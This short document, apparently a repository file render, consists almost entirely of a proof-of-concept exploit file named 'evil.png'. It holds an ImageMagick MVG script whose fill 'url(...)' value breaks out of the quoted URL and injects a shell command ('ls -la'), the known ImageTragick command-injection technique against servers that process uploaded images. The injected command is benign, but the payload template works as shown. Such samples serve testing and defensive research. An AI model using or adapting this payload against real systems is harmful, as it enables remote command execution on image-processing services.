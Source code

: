 ### evil.png

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```
